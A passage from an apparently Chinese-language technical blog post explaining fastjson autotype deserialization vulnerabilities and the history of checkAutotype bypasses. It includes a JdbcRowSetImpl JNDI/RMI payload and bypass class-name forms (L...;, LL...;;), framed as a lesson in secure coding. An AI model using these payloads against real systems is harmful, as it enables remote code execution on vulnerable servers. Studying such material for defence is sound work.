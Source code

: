 

```plain
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```



**这就是所谓的远程命令执行漏洞，即利用漏洞入侵到目标服务器，通过服务器执行命令。**



在早期的fastjson版本中（v1.2.25 之前），因为AutoType是默认开启的，并且也没有什么限制，可以说是裸着的。



从v1.2.25开始，fastjson默认关闭了autotype支持，并且加入了checkAutotype，加入了黑名单+白名单来防御autotype开启的情况。



但是，也是从这个时候开始，黑客和fastjson作者之间的博弈就开始了。



因为fastjson默认关闭了autotype支持，并且做了黑白名单的校验，所以攻击方向就转变成了"如何绕过checkAutotype"。



下面就来细数一下各个版本的fastjson中存在的漏洞以及攻击原理，**由于篇幅限制，这里并不会讲解的特别细节，如果大家感兴趣我后面可以单独写一篇文章讲讲细节**。下面的内容主要是提供一些思路，目的是说明写代码的时候注意安全性的重要性。



#### 绕过checkAutotype，黑客与fastjson的博弈


在fastjson v1.2.41 之前，在checkAutotype的代码中，会先进行黑白名单的过滤，如果要反序列化的类不在黑白名单中，那么才会对目标类进行反序列化。



但是在加载的过程中，fastjson有一段特殊的处理，那就是在具体加载类的时候会去掉className前后的`L`和`;`，形如`Lcom.lang.Thread;`。



![[d53d7ee4-7dbf-44ff-a13c-3b5c93134877.jpg]]￼



而黑白名单又是通过startWith检测的，那么黑客只要在自己想要使用的攻击类库前后加上`L`和`;`就可以绕过黑白名单的检查了，也不耽误被fastjson正常加载。



如`Lcom.sun.rowset.JdbcRowSetImpl;`，会先通过白名单校验，然后fastjson在加载类的时候会去掉前后的`L`和`;变成了`com.sun.rowset.JdbcRowSetImpl`。



为了避免被攻击，在之后的 v1.2.42版本中，在进行黑白名单检测的时候，fastjson先判断目标类的类名的前后是不是`L`和`;`，如果是的话，就截取掉前后的`L`和`;`再进行黑白名单的校验。



看似解决了问题，但是黑客发现了这个规则之后，就在攻击时在目标类前后双写`LL`和`;;`，这样再被截取之后还是可以绕过检测。如`LLcom.sun.rowset.JdbcRowSetImpl;;`



魔高一尺，道高一丈。在 v1.2.43中，fastjson这次在黑白名单判断之前，增加了一个是否以`LL`未开头的判断，如果目标类以`LL`开头，那么就直接抛异常，于是就又短暂的修复了这个漏洞。



黑客在`L`和`;`这里走不通了，于是想办法从其他地方下手，因为fastjson在加载类的时候，不只对`L`和`;`这样的类进行特殊处理，还对`[`也被特殊处理了。

